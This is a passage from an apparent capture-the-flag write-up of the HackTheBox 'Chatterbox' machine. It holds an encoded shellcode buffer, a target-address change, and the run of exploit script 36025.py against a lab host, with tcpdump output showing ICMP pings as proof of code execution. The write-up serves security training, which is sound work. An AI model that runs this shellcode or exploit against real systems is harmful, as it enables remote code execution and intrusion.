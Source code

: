 ```python
buf += b"\x54\x4b\x61\x42\x5a\x70\x54\x4b\x6f\x5a\x6d\x6c"
buf += b"\x62\x6b\x50\x4c\x4c\x51\x70\x78\x77\x73\x50\x48"
buf += b"\x59\x71\x7a\x31\x32\x31\x34\x4b\x70\x59\x6f\x30"
buf += b"\x7a\x61\x37\x63\x74\x4b\x31\x39\x5a\x78\x5a\x43"
buf += b"\x4e\x5a\x50\x49\x64\x4b\x4d\x64\x52\x6b\x4d\x31"
buf += b"\x46\x76\x4d\x61\x49\x6f\x54\x6c\x47\x51\x78\x4f"
buf += b"\x4c\x4d\x5a\x61\x45\x77\x6c\x78\x77\x70\x30\x75"
buf += b"\x79\x66\x4c\x43\x61\x6d\x38\x78\x4f\x4b\x53\x4d"
buf += b"\x6d\x54\x70\x75\x48\x64\x51\x48\x34\x4b\x42\x38"
buf += b"\x6c\x64\x4a\x61\x4a\x33\x70\x66\x74\x4b\x6c\x4c"
buf += b"\x70\x4b\x72\x6b\x30\x58\x4d\x4c\x69\x71\x76\x73"
buf += b"\x42\x6b\x69\x74\x72\x6b\x79\x71\x66\x70\x71\x79"
buf += b"\x71\x34\x4f\x34\x4f\x34\x61\x4b\x51\x4b\x73\x31"
buf += b"\x50\x59\x6e\x7a\x30\x51\x79\x6f\x59\x50\x61\x4f"
buf += b"\x51\x4f\x4e\x7a\x32\x6b\x4d\x42\x58\x6b\x54\x4d"
buf += b"\x4f\x6d\x51\x5a\x39\x71\x44\x4d\x33\x55\x38\x32"
buf += b"\x4d\x30\x6b\x50\x69\x70\x52\x30\x6f\x78\x70\x31"
buf += b"\x32\x6b\x32\x4f\x42\x67\x69\x6f\x66\x75\x57\x4b"
buf += b"\x6c\x30\x46\x55\x77\x32\x52\x36\x6f\x78\x66\x46"
buf += b"\x54\x55\x75\x6d\x73\x6d\x49\x6f\x48\x55\x6d\x6c"
buf += b"\x5a\x66\x31\x6c\x4c\x4a\x35\x30\x6b\x4b\x37\x70"
buf += b"\x50\x75\x6c\x45\x37\x4b\x50\x47\x4b\x63\x54\x32"
buf += b"\x42\x4f\x42\x4a\x6b\x50\x4e\x73\x4b\x4f\x77\x65"
buf += b"\x52\x50\x53\x39\x32\x4e\x30\x67\x6d\x50\x6e\x51"
buf += b"\x70\x30\x6c\x6e\x6e\x51\x4c\x70\x4c\x6e\x6c\x71"
buf += b"\x6f\x44\x4c\x6e\x70\x32\x70\x36\x39\x70\x41\x41"
```

- Change the `server_address` to `('10.10.10.74', 9256)`:

```python
server_address = ('10.10.10.74', 9256)
```

- Capture ICMP requests via `tcpdump`:

```shell
┌[siunam♥earth]-(~/ctf/htb/Machines/Chatterbox)-[2023.05.17|21:17:29(HKT)]
└> sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```

- Run the exploit script:

```shell
┌[siunam♥earth]-(~/ctf/htb/Machines/Chatterbox)-[2023.05.17|21:17:23(HKT)]
└> python2 36025.py
---->{P00F}!
```

```shell
[...]
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
21:19:34.221676 IP 10.10.10.74 > 10.10.14.26: ICMP echo request, id 1, seq 5, length 40
21:19:34.221704 IP 10.10.14.26 > 10.10.10.74: ICMP echo reply, id 1, seq 5, length 40
21:19:35.165345 IP 10.10.10.74 > 10.10.14.26: ICMP echo request, id 1, seq 6, length 40
21:19:35.165387 IP 10.10.14.26 > 10.10.10.74: ICMP echo reply, id 1, seq 6, length 40
21:19:36.162867 IP 10.10.10.74 > 10.10.14.26: ICMP echo request, id 1, seq 7, length 40
21:19:36.162885 IP 10.10.14.26 > 10.10.10.74: ICMP echo reply, id 1, seq 7, length 40
21:19:37.160799 IP 10.10.10.74 > 10.10.14.26: ICMP echo request, id 1, seq 8, length 40
21:19:37.160813 IP 10.10.14.26 > 10.10.10.74: ICMP echo reply, id 1, seq 8, length 40
```
